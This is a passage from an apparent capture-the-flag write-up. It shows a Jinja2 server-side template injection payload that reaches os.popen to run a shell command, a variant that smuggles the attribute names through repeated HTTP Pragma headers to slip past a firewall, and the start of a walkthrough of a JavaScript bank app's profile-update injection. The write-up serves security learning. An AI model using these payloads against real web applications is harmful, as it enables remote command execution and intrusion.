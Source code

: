 {% raw %}
```python
{{lipsum|attr("__globals__")|attr("__getitem__")|attr("__builtins__")|attr("__import__")|attr("os")|attr("popen")|attr("cat flag.txt")|attr("read")()}}
```
{% endraw %}

Which when replaced with our pragma headers becomes:

{% raw %}
```python
{{lipsum|attr(request.pragma.0)|attr(request.pragma.1)(request.pragma.2)|attr(request.pragma.1)(request.pragma.3)(request.pragma.4)|attr(request.pragma.5)(request.pragma.6)|attr(request.pragma.7)()}}
```
{% endraw %}

And our HTTP headers will include:

```http
Pragma: __globals__
Pragma: __getitem__
Pragma: __builtins__
Pragma: __import__
Pragma: os
Pragma: popen
Pragma: cat flag.txt
Pragma: read
```

And that got us the second solve on this challenge!

`uoftctf{That_firewall_salesperson_scammed_me_:(}`

## web/Jay's Bank

So we are given a javascript source with a mysql database. Firstly, we should check the routes and aside from the typical login/register we have a /profile PUT endpoint which allows us to modify our user account.

```javascript
await db.updateData(
      username,
      db.convert({
        phone,
        credit_card,
        secret_question,
        secret_answer,
        role: "user",
      })
    );
```

It will then update our data in the database. Notice that inside of the call to `db.updateData()` there is a call to `db.convert()` so let's pull up the source for that:

```js
convert(o) {
    console.log(`{${Object.entries(o).map(([k, v]) => 
      `"${k}": ${typeof v === "object" && v !== null ? convert(v) : `"${v}"`}`
    ).join(", ")}}`.toLowerCase());
    return `{${Object.entries(o).map(([k, v]) => 
      `"${k}": ${typeof v === "object" && v !== null ? convert(v) : `"${v}"`}`
    ).join(", ")}}`.toLowerCase();
  }
```
